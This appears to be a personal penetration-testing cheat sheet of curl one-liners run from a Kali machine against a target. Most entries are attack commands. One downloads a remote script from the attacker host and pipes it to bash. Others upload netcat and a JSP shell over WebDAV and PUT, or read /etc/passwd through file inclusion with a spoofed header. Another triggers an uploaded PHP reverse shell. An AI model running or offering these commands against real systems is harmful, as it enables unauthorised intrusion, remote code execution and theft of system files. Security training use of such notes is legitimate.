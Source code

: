 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Download and execute
```bash - target
curl http://$KALI/shelly.sh | bash
```

#### Save to file
```bash - target
curl http://$KALI/shelly.sh -o shelly.sh
```

#### Headers
```bash - kali
curl -I http://$TARGET/filemanager/
```

#### Upload file
```bash - kali
curl --user 'user:password' -T nc64.exe http://$TARGET/webdav/nc64.exe
```

```bash - kali
curl -X PUT http://$TARGET:PORT/shelly.jsp -d 2- < shelly.jsp
```
  
#### LFI example with custom header
```bash - kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

#### html2text
```bash - kali
curl http://$TARGET:8080/ | html2text
```

#### Credentials
```bash - kali
curl --user $USER:$PASSWORD $TARGET
```

#### Webdav trigger webshell
```bash - kali
curl http://$TARGET/webdav/php-reverse-shell.php -u $USER:$PASSWORD
```
#### Edit Method
```bash - kali
curl -siX POST -H 'Content-Length: 0' http://$TARGET:80/running-proccesses
```